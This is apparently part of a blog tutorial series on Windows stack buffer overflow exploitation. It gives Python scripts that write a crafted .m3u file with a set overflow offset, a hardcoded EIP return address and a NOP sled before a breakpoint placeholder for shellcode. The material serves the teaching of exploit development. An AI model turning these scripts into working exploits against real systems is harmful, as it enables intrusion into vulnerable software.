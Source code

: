 :orphan:
(windows-exploitation-stack-overflow-part-2)=

# Windows Exploitation: Stack Overflow Part 2

Let's continue to considering the most fundamental buffer overflows on Windows are known as _vanilla EIP overwrites_ or _direct EIP overwrites_, in which the `EIP` is immediately overwritten after a sufficient amount of data is supplied. In the [first part of our blog post](windows-exploitation-stack-overflow-part-1), we inserted the breakpoint instruction just before the `C`- buffer. We will also regenerate an exploit file and restart the application within the debugger.

```python
shellcode = "\xcc"

buffer = "http://"
buffer += "A" * 17417
buffer += "\x6e\x9d\x92\x55" # will become EIP 0x55929d6e
buffer += shellcode # breakpoint
buffer += "C" * 600

f = open("exploit.m3u", "w")
f.write(buffer)
f.close()
```

Sadly, we did not land in the buffer zone. However, the `ESP` does not precisely point to the beginning of the `C`-buffer. We touched down within this buffer.

_How can we figure out where are we now?_

Listed below are potential solutions to help us determine where we are:

- Reexamine the crash using `pattern_create/offset` and calculate the offset for what the `ESP` is pointing to (slow).

- Since there is ample room, we can pad the beginning of the `C`-buffer with `NOP`s prior to setting the breakpoint. Thus, the program will execute `NOP`s before proceeding directly to the breakpoint.

Choosing the second option, we will modify the exploit. We select a `NOP` number that is large enough to produce a secure and substantial `NOP` slide (`50` in this case).

```python
shellcode = "\xcc"

buffer = "http://"
buffer += "A" * 17417
buffer += "\x6e\x9d\x92\x55" # will become EIP 0x55929d6e
buffer += "\x90" * 50 # NOPs
buffer += shellcode # breakpoint
buffer += "C" * 600

f = open("exploit.m3u", "w")
f.write(buffer)
f.close()
```
